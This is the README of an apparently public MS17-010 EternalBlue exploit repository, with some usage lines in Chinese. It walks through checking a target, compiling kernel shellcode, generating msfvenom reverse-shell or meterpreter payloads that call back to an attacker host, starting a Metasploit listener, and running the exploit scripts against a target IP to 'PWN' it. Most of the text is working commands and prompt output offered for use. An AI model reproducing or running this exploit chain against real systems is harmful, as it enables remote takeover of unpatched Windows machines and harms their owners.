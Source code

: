 # MS17-010 Exploit Code

##调用过程：
python eternal_checker.py target_ip 补丁情况 The target is not patched   
./listener_prep.sh 配置msf的反弹shell   
python zzz_exploit.py target_ip exploit利用   

## info

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

Alternatively you may use `zzz_exploit.py` which is an implementation of the "Eternal" family that uses the same technique from Eternal Romance, Synergy, and Champion. 

This is not setup to send back a reverse shell or execute any sort of payload like Eternal Blue is. This uses the functions from mysmb.py to spawn a semi-interactive cmd shell. There are commented out sections of code that can be modified to interact with metasploit or send of custom payloads using the `service_exec()` function call.

All of the code execution functionality can be found in the `do_system_mysmb_session()` function.

This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.

run:

`python zzz_exploit.py <TARGET-IP>`


Enternal Blue has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64) 

zzz has only been tested on Windows XP

However the Eternal Blue exploits included in this repo also include support for Windows 8/Server 2012 and *should* work.

The zzz exploit should also work on all targets provided you have access to a named pipe. For some OS's (Windows 10) this may also require credentials of a user who can access this named pipe (This is because on newer versions, Guest and NULL sessions are not supported out of the box).

The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
